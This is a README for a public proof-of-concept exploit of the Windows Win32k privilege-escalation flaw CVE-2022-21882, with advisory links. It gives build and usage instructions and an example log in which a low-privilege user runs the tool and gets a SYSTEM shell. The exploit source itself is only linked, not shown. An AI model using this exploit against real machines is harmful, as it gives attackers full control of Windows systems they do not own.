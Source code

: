 # CVE-2022-21882

CVE-2021-1732 / CVE-2022-21882 - The revive of CVE-2021-1732

Win32k Elevation of Privilege Vulnerability. The Win32k elevation of privilege vulnerability was fixed this month as part of the January 2022 Patch Tuesday, it is the result of a bypass for the previously CVE-2021-1732 flaw that allows anyone to gain admin privileges in Windows 10.

## Installation

Build your own .exe from [source](https://github.com/KaLendsi/CVE-2022-21882).

## Usage

```powershell
CVE-2021-1732.exe whoami
```

## Examples

```bash
Microsoft Windows [Version 10.0.17763.107]
(c) Microsoft Corporation. All rights reserved.

C:\Users\lowpriv> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
JohnDo
The command completed successfully.

C:\Users\lowpriv> whoami
desktop-qiv0pbc\lowpriv

C:\temp>CVE-2021-1732.exe whoami
CreateWnd
Hwnd:000b014a   qwfirstEntryDesktop=000001966C345110
BaseAddress:000001966C345000   RegionSize=:000000000001A000
Hwnd:00050406   qwfirstEntryDesktop=000001966C3431C0
BaseAddress:000001966C343000   RegionSize=:000000000001C000
Hwnd:000903b2   qwfirstEntryDesktop=000001966C342A20
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:000300d8   qwfirstEntryDesktop=000001966C342B70
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:0013016c   qwfirstEntryDesktop=000001966C341B90
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:00050414   qwfirstEntryDesktop=000001966C341CE0
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:0005017c   qwfirstEntryDesktop=000001966C341E30
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:000502da   qwfirstEntryDesktop=000001966C356830
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:00020384   qwfirstEntryDesktop=000001966C356980
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:000203ac   qwfirstEntryDesktop=000001966C356AD0
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Min BaseAddress:000001966C341000   RegionSize=:000000000001E000
realMagicHwnd=00000000000303AC
Free ExtraBytes:000000000000124D
set ExtraData == 00000000000431C0
Free ExtraBytes:000000000000124D
dwRet=000000000000FA90
tagWndMin_offset_0x128=000000000000FA90
g_qwvuln=FFFFB73700826960
qwFrist read=FFFFB73700831E70
qwSecond read=FFFFC98914160810
qwSecond read=FFFFB73701A00000
qwFourth read=FFFFB737017F8010
qwFifth read=FFFFC989207F2080
qwSixth read=FFFFC98921421300
[*] Trying to execute whoami as SYSTEM
[+] ProcessCreated with pid 11296!
===============================
nt authority\system
```

## References

- [Github.com - CVE-2022-21882](https://github.com/KaLendsi/CVE-2022-21882)
- [Nvd.nist.gov - CVE-2021-1732](https://nvd.nist.gov/vuln/detail/CVE-2021-1732)
- [Securityaffairs.co - Expert releases PoC for CVE-2022-21882 Windows local privilege elevation issue](https://securityaffairs.co/wordpress/127377/hacking/cve-2022-21882-win-local-privilege-elevation.html)
- [Twitter.com - @kalendsi](https://twitter.com/kalendsi/status/1483770845138804738)
- [Twitter.com - @0x6d69636b](https://twitter.com/0x6d69636b/status/1486960626220118017?s=11)
- [Nvd.nist.gov - CVE-2022-21882](https://nvd.nist.gov/vuln/detail/CVE-2022-21882)
- [Portal.msrc.microsoft.com - Win32k Elevation of Privilege Vulnerability](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2022-21882)
